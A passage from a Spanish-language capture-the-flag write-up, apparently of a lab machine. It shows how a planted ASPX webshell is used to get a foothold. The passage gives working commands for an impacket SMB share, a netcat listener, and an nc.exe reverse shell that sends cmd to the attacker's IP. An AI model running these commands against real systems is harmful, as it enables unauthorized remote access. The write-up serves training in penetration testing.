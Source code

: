 Tenemos nuestra webshell en la máquina y lo podemos comprobar al ingresar al recurso en el navegador `http://10.10.10.5/console.aspx`

<p align="center">
<img src="/assets/images/devel/05-page3.png">
</p>

Activamos el servicio `smb` con `impacket` para compartir los archivos que tenemos en la carpeta `exploit`.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

Creamos un listener por el puerto que elegimos.

```bash
rlwrap nc -lvnp 4564
```

En la webshell ingresamos el siguiente comando que nos va a permitir ejecutar `nc.exe` directamente en la máquina víctima y así generar una reverse shell.

```bash
\\10.10.14.15\smbFolder\nc.exe -e cmd 10.10.14.15 4564
```

Finalmente obtenemos acceso a una shell de la máquina victima con el usuario `iis apppool\web`.

<p align="center">
<img src="/assets/images/devel/06-page4.png">  
</p> 

## INSTUSION MSFVENOM
